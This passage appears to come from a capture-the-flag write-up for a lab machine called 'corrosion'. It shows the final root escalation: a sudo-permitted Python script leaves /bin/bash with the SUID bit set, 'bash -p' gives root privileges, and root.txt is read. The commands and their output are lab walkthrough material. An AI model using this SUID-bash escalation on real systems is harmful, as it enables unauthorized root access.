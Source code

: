Now let's run the `randombase64.py` script with `sudo` to see our results.

```bash
randy@corrosion:/var/spool/cron$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
[sudo] password for randy:
Enter your string:

randy@corrosion:/var/spool/cron$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

It looks like we have `SUID` set on `/bin/bash`. Let's try executing it to see if we get `root`.

```bash
randy@corrosion:/var/spool/cron$ /bin/bash -p
bash-5.0# uname -a; id; cat /root/root.txt
Linux corrosion 5.11.0-34-generic #36~20.04.1-Ubuntu SMP Fri Aug 27 08:06:32 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
uid=1000(randy) gid=1000(randy) euid=0(root) egid=0(root) groups=0(root),27(sudo),1000(randy)
2fdbf8d4f894292361d6c72c8e833a4b
```

We were able to escalate to `root` and grab `root.txt` successfully :)



